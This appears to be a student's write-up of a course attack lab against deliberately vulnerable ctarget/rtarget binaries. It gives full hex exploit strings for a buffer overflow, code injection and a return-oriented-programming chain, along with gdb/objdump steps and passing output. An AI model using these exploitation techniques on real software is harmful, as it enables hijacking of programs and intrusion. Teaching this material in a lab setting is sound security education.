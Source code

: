 CSCI 3160 Attack Lab Writeup
Jacob Hebert, Target 417

# Phase 1
We completed the first phase as a class, this involved finding the correct memory address to exploit and sending a string the same size as the buffer to corrupt it. Doing this would corrupt the stack and crash the program. We achieved this by looking at the assembly dump of the file and determining not only the correct address, but also the correct size for the attack string. We did this by examining the `touch1` function and the `getbuf` function, both of which provided enough information for us to make the attack. My buffer was 0x18 or 24 bytes in size, so I filled the buffer with 24 bytes of zeros and completed the first phase.

# Phase 3
Phase 2 required us to inject some code into the program by overflowing the buffer and setting the program to a specific point in the code, into touch2. We then had to figure out the kind of injection needed. The first thing I did, after writing phase1’s section was realize that the buffer overflow was the same for all phases requiring ctarget, since that’s the only input that we have in the program. I created the level2 file and pasted the buffer overflow bytes  in, and picked a spot in `touch2` to start from, and I got a “Misfire!”. At least I was in the right spot!

Cookie: 0x23f306d5

Type string:Misfire: You called touch2(0x00406520)

I started by trying to follow the hints, which led me to find assembly code to inject the cookie right before the return statement in the `getbuf` function, then using the next part of the injection to put the code in the right address space for touch2 to take over. I realized quickly that I was getting nowhere with the assembly injection because I wasn’t able to get the program to run without immediately seg faulting. So I rethought my ideas and tried to reformat my attack file to actually follow the hints. 
The first part of phase 2 took me about 2 hours to realize I hit a dead end.

My friend Deep gave me some insight on how to actually complete this part of the lab, which was really simple in hindsight:

    1. Find the return address of getbuf
    2. Find the return address of touch2
    3. Inject code in the buffer to alter the value of %rdi

The cookie was the value to inject, and a movq asm command made the most sense, so
    `movq $0x23f306d5, %rdi`

I needed to translate this from text to the binary form, so running
    `as ctarget_l2_inject.s -o ctarget_l2_inject.o`
generated the needed output, which when objdumped gave:
    `48 c7 c7 d5 06 f3 23`
    `c3` is retq in asm, so that would be at the 8th byte.


    (gdb) until *0x401daa
    gdb) x/s $rsp
    (Address of register) 0x5551fa10:

Injection script:

> ```C
>/* Injection string */
>/* First 8 bytes are movq to rsi, rest to overflow getbuf */
>
>48 c7 c7 d5 06 f3 23 c3
>00 00 00 00 00 00 00 00
>00 00 00 00 00 00 00 00
>
>
>/* 0x5551fa10 = ret addr for getbuf */
>10 fa 51 55 00 00 00 00
>
>
>
>/* Address of touch2 */
>f4 1d 40 00 00 00 00 00
>```

At first the injection caused a seg fault, but it was likely caused by comments, because shortly after, I ran it again and it passed
    
    ```bash
        ./hex2raw < ctarget.lv2 | ./ctarget
        Cookie: 0x23f306d5
        Type string:Touch2!: You called touch2(0x23f306d5)
        Valid solution for level 2 with target ctarget
        PASS
    ```


# Phase 3

I needed to pass the cookie as a string -- so I need to translate the hex cookie to a set of ascii characters


1. We need to inject the cookie into the return address of touch3

Need to use a movq instruction to move the location of the cookie to the register at the time needed
Add 0x28 to account for buffer and size of rsp and touch3. 0x18 for the buffer, 0x8 for rsp, and 0x8 for touch3.

The new memory address is: 0x5551fa10 + 0x28 = **0x5551fa38**. This gets injected in the first line of the buffer overflow.


2. add the return address for getbuf
    `10 fa 51 55 00 00 00 00`

3. ret address for touch3
    `11 1f 40 00 00 00 00 00`

4. Translate hex to ASCII
    `32 33 66 33 30 36 64 35 00` *plus an extra byte of zeroes*

    Script:

>    ```c
>   /* movq cookie location -> rdi and retq */
>   /* 10 fa 51 55 */
>   /* 0x5551fa10 + 0x28 = 0x5551fa38 */
>
>
>   48 c7 c7 38 fa 51 55 c3
>   00 00 00 00 00 00 00 00
>   00 00 00 00 00 00 00 00
>
>   /* retaddr of getbuf */
>   10 fa 51 55 00 00 00 00
>
>   /* retaddr of touch3 */
>   /* 0x401f11          */
>
>   11 1f 40 00 00 00 00 00
>
>   /* Hex translation of cookie */
>   32 33 66 33 30 36 64 35 00 
>```

```bash
    Cookie: 0x23f306d5
    Type string:Touch3!: You called touch3("23f306d5")
    Valid solution for level 3 with target ctarget
    PASS
    ```
With Deep's help, this took me about half an hour to complete.


# Phase 4

ROP is hard...
The first thing I did was find the gadget farm in the address space.
```bash
    objdump -d rtarget | sed -n '/start_farm/,/end_farm/p' >> farm.dump
```
This finds the entire codespace from the start to the end of the farm

Using the farm, I made some grep statements to find the patterns that I needed for execution

    /* popq %rdi , 5f */
    /* popq %rax, 58 -> setval_269 */
    /* c4 = c7, 2 more places is 58 */

I started with these, I grepped to a spot that would have 5f or 58, for me, setval_269 had the value I needed,
it was located at c4, but 2 bytes into the address, so I had to add 2 to my inject, starting at c6.
That popped %rax from the stack.

I used that to put the cookie on the stack.

    /* movq rdi rax */
    /* cat farm.dump | grep -E "48 89 .. c3"  */
I didn't know the exact 3rd byte to look for, so I used extended regex to find it somewhere in the farm, which resulted in:
    ```bash
         401fcf:       b8 48 89 c7 c3          mov    $0xc3c78948,%eax
    ```
The start of the string I wanted was one byte in, so I added 1 to the address, making my address: `d0 1f 40 00 00 00 00 00`

The last thing was to inject the return address of touch2, which was already in ctarget.lv2, so I just copy/pasted that.

ROP Attack:

>   /* Cookie: 0x23f306d5 */
>
>   /* Fill buffer to 24 bytes */
>
>   00 00 00 00 00 00 00 00
>   00 00 00 00 00 00 00 00
>   00 00 00 00 00 00 00 00
>   /* popq %rdi , 5f */
>   /* popq %rax, 58 -> setval_269 */
>   /* c4 = c7, 2 more places is 58 */
>   c6 1f 40 00 00 00 00 00
>
>   /* cookie */
>   d5 06 f3 23 00 00 00 00
>
>   /* movq rdi rax */
>   /* cat farm.dump | grep -E "48 89 .. c3"  */
>
>   /* 401fcf:       b8 48 89 c7 c3          mov    $0xc3c78948,%eax */
>
>   d0 1f 40 00 00 00 00 00
>
>   /* Ret addr of touch2 */
>
>   f4 1d 40 00 00 00 00 00



```bash
    Cookie: 0x23f306d5
    Type string:Touch2!: You called touch2(0x23f306d5)
    Valid solution for level 2 with target rtarget
    PASS


    ```


Deep helped me significantly with this lab. Without him, I would not have been able to get to phase 4.
